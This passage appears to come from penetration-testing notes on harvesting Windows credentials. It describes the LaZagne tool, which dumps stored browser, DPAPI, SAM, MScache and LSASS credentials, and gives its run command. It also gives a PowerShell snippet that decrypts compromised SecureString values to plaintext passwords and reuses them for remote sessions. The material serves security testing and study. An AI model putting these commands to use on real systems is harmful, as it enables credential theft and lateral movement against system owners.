 `LaZagne` is a Python utility, available as a standalone binary, that attempt
to retrieve the credentials possibly stored on a system by a number of third
party softwares, such as web browsers, system administrator and developers
utilities, etc. It will conduct the search for every user profiles and will
retrieve the credentials stored by third parties software through different
mediums (plaintext files, registry keys, local databases, etc.), decrypting the
`DPAPI` encrypted blob using the `MasterKeys` extracted from memory.
Additionally, `LaZagne` will retrieve credentials from the Windows `MScache`,
`SAM` registry hive and `LSASS` process if executed with the necessary
elevated privileges.

```bash
lazagne.exe all -oA -output <OUTPUT_FILE_PATH>
```

### SecureString

If an encrypted standard string of a PowerShell  `SecureString` object is
compromised, from a file for example, the `SecureString` can be directly
re used:

```Powershell
# Neither the specified <DOMAIN> or <USERNAME> matter to retrieve the password (but do to directly reuse the PS credential object).
$user = "<DOMAIN>\<USERNAME>";

# Regular secure string.
$secure_str = "<SECURESTRING>" | ConvertTo-SecureString;

# If the secure string has been encrypted using an AES key.
# The AES <AES_KEY> should be specified in a bytes array (example for a AES 256 key: 149,78,229,162,205,32,191,57,155,208,27,225,129,85,69,233,157,77,207,49,67,238,46,181,182,80,171,236,170,103,59,182).
$encrypted = "<BASE64_ENCRYPTED_SECURE_STRING>"
[Byte[]] $key = (<AES_KEY>)
$secure_str = $encrypted | ConvertTo-SecureString -Key $key

$creds = New-Object System.Management.Automation.PSCredential($user, $secure_str)

# The plaintext password stored in the secure string can then be retrieved.
$creds.GetNetworkCredential() | fl
```

The PowerShell credentials object can now be passed to cmdlets supporting it,
such as `Start-Process` / `Start-Job` or `Invoke-Command` / `Enter-PSSession`.

Note that if the `SecureString` object was created using a plaintext password,
instead of using a `Key` / `SecureKey`, the stored standard string can only be
converted to a `SecureString` object by the account, local or domain joined,
that created the `SecureString` initially. Otherwise, the following error
message will be returned:

```Powershell
ConvertTo-SecureString : Key not valid for use in specified state.
```
